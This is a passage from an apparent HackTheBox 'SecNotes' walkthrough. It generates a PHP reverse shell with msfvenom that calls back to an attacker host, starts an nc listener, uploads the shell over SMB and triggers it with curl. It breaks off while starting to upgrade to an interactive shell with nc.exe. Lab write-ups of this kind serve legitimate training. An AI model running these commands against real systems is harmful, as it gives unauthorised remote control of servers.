![[secnotes-15.png]]

Access the file:

```bash
curl http://10.10.10.97:8808/test.txt
```

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/SecNotes]
└─$ curl http://10.10.10.97:8808/test.txt
test

```

Excellent! we could use it to upload reverse shell.

### Exploit: PHP reverse shell

Let’s first get a PHP reverse shell with msfvenom

```bash
msfvenom -a php --platform php -p php/reverse_php LHOST=10.10.14.8 LPORT=1234 -f raw -o shell.php
```

Build up a listener for 1234:

```bash
nc -lvnp 1234
```

Upload webshell by smb:

```bash
# smb
put shell.php
exit
```

![[secnotes-16.png]]
And we will access the shell:

```bash
curl http://10.10.10.97:8808/shell.php
```

![[secnotes-17.png]]

Cool. We could get a web shell. 

### Exploit : Upgrade from web shell to Interactive Shell

*Method 1: nc.exe*

Find a nc.exe on our kali

```bash
# kali
locate nc.exe
```
